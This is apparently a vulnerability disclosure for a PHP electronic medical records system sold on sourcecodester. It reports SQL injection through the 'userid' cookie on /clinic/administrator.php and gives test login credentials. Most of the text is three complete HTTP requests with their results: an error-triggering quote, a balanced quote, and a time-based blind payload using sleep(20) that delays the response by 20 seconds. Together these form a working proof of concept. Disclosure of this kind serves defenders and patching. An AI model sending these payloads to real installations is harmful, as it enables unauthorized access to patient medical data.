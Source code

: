 # Electronic Medical Records System v1.0 by Patrick Mvuma has SQL injection

BUG_Author: lcg22266

User Login Credential: test@clinic.com/1234554321

vendors:https://www.sourcecodester.com/php/13475/electronic-medical-records-system-emr.html

Vulnerability File: /clinic/administrator.php

Vulnerability location: Cookie parameter 'userid'

Payload1:Cookie: userid=1234554321'; useremail=test%40clinic.com; login=18-02-2023%2010%3A35%3A34%20AM; user=6; PHPSESSID=8k72voo5t0276k7qbfjgmn7sjm

```
GET /clinic/administrator.php HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: userid=1234554321'; useremail=test%40clinic.com; login=18-02-2023%2010%3A35%3A34%20AM; user=6; PHPSESSID=8k72voo5t0276k7qbfjgmn7sjm
Connection: close
```

sql statement error

Payload2:Cookie: userid=1234554321''; useremail=test%40clinic.com; login=18-02-2023%2010%3A35%3A34%20AM; user=6; PHPSESSID=8k72voo5t0276k7qbfjgmn7sjm

```
GET /clinic/administrator.php HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: userid=1234554321''; useremail=test%40clinic.com; login=18-02-2023%2010%3A35%3A34%20AM; user=6; PHPSESSID=8k72voo5t0276k7qbfjgmn7sjm
Connection: close
```

correct page

Payload3:Cookie: userid=1234554321'%2b(select*from(select(sleep(20)))a)%2b'; useremail=test%40clinic.com; login=18-02-2023%2010%3A35%3A34%20AM; user=6; PHPSESSID=8k72voo5t0276k7qbfjgmn7sjm

```
GET /clinic/administrator.php HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: userid=1234554321'%2b(select*from(select(sleep(20)))a)%2b'; useremail=test%40clinic.com; login=18-02-2023%2010%3A35%3A34%20AM; user=6; PHPSESSID=8k72voo5t0276k7qbfjgmn7sjm
Connection: close
```

The server response time is 20 seconds


